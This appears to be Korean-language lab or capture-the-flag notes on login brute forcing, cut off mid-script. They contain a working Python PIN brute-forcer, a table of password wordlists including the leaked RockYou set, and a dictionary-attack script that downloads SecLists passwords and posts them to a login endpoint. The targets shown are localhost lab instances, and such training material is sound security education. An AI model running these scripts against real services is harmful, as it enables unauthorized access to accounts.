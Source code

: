 ```
- [Wordlists](https://github.com/3ndG4me/KaliLists.git) : ```git clone https://github.com/3ndG4me/KaliLists.git /usr/local/share/wordlists && gzip -d /usr/local/share/wordlists/rockyou.txt.gz```

<br/><br/>
# Login Brute Forcing

## 1. 비밀번호 보안

### PIN 해독하기
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

## 2. 사전 공격
| 단어 목록                                       | 설명                                                          | 일반적인 사용                             | 원천                                                                                                     |
| ------------------------------------------- | ----------------------------------------------------------- | ----------------------------------- | ------------------------------------------------------------------------------------------------------ |
| `rockyou.txt`                               | RockYou 침해 사건으로 인해 수백만 개의 비밀번호가 포함된 인기 있는 비밀번호 목록이 유출되었습니다. | 일반적으로 비밀번호 무차별 대입 공격에 사용됩니다.        | [RockYou 침해 데이터 세트](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) |
| `top-usernames-shortlist.txt`               | 가장 흔한 사용자 이름을 간략하게 정리한 목록입니다.                               | 빠르고 무차별적인 사용자 이름 공격 시도에 적합합니다.      | [보안 목록](https://github.com/danielmiessler/SecLists/tree/master)                                        |
| `xato-net-10-million-usernames.txt`         | 1,000만 개에 달하는 더 광범위한 사용자 이름 목록.                             | 철저한 사용자 이름 공격에 사용됩니다.               | [보안 목록](https://github.com/danielmiessler/SecLists/tree/master)                                        |
| `2023-200_most_used_passwords.txt`          | 2023년 현재 가장 흔하게 사용된 비밀번호 200개 목록입니다.                        | 일반적으로 재사용되는 비밀번호를 타겟으로 하는 데 효과적입니다. | [보안 목록](https://github.com/danielmiessler/SecLists/tree/master)                                        |
| `Default-Credentials/default-passwords.txt` | 라우터, 소프트웨어 및 기타 장치에서 일반적으로 사용되는 기본 사용자 이름과 비밀번호 목록입니다.      | 기본 자격 증명을 시도하는 데 이상적입니다.            | [보안 목록](https://github.com/danielmiessler/SecLists/tree/master)                                        |

### 사전 대입
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
```